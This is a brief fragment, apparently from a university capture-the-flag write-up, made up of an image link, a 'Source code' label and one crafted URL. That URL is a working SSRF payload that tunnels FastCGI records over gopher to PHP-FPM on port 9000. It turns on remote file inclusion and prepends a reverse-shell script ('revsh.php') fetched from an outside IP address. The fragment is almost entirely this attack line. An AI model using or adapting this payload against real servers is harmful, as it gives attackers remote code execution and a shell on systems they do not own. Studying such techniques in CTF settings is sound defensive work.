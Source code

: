 https://edu-ctf.csie.org:10161/?url=gopher://0:9000/_%01%01%2500%01%2500%08%2500%2500%2500%01%2500%2500%2500%2500%2500%2500%01%04%2500%01%2500%7F%2500%2500%0E%03REQUEST_METHODGET%0F%16SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Finfo.php%09%3APHP_VALUEallow_url_include%3DOn%250Aauto_prepend_file%3Dhttp%3A%2F%2F140.113.68.171%3A5487%2Frevsh.php%01%04%2500%01%2500%2500%2500%2500%01%05%2500%01%2500%2500%2500%2500
